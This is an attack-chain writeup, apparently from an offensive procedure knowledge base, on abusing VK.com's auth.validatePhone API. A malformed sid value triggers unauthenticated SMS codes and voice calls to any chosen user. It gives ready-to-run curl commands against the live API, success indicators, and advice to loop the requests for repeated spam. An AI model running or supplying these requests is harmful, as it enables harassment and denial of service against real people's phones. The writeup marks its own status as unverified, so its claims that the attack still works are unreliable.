

# VK.com auth.validatePhone SID Parameter Validation Bypass for SMS and Voice Spam

Multi-stage attack chain demonstrating exploitation of the auth.validatePhone API vulnerability to spam SMS or voice calls to VK.com users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses direct API requests via curl or browser tools)

### Target Environment

- VK.com API endpoint
- No specific ports required (HTTPS on port 443)
- Internet access to api.vk.com

### Initial Access Requirements

- No credentials needed
- Public API access
- Knowledge of target user IDs

## Detailed Attack Procedures

### Step 1: Trigger SMS Spam
procedure: [[procedures/Trigger-Unauthorized-SMS-Via-Malformed-SID]]

**Objective**: Exploit the sid parameter validation flaw to send unauthorized SMS activation codes to a target user.

**Instructions**: Identify a target user ID (e.g., from public profiles). Craft a malformed sid like '2fa_<userId>_<arbitraryText>'. Execute [[commands/vk-auth-validatephone-sms-spam]] to test basic SMS trigger:

```bash
curl "https://api.vk.com/method/auth.validatePhone?sid=2fa_23048942_lolka"
```

For Unicode text validation, use [[commands/vk-auth-validatephone-unicode-sms]]:

```bash
curl "https://api.vk.com/method/auth.validatePhone?sid=2fa_66748_блаблабла"
```

**Expected Output**: API response indicating successful validation, resulting in an SMS sent to the target user.

**Success Indicators**:
- API returns without error (e.g., code 0 or success status)
- Target user receives SMS activation code
- Repeatable without rate limits initially

### Step 2: Trigger Voice Call Spam
procedure: [[procedures/Trigger-Unauthorized-Voice-Call-Via-Malformed-SID]]

**Objective**: Extend the sid flaw to initiate voice calls for escalated spam impact.

**Instructions**: Use the same malformed sid format and add the voice=1 parameter. Execute [[commands/vk-auth-validatephone-voice-spam]]:

```bash
curl "https://api.vk.com/method/auth.validatePhone?sid=2fa_66748_блаблабла&voice=1"
```

**Expected Output**: API response confirming call initiation, leading to a voice call to the target.

**Success Indicators**:
- API processes request successfully
- Target receives automated voice call
- Ability to loop for multiple calls

## Attack Chain Summary

### Key Achievements

1. Bypassed sid format validation to inject arbitrary text after user ID
2. Triggered SMS and voice actions without authentication or 2FA checks
3. Enabled denial-of-service via spam on any VK.com user

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Network Denial of Service]] Network Denial of Service

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Impact]] Impact

---
*Last updated: 2023-10-01T00:00:00Z*
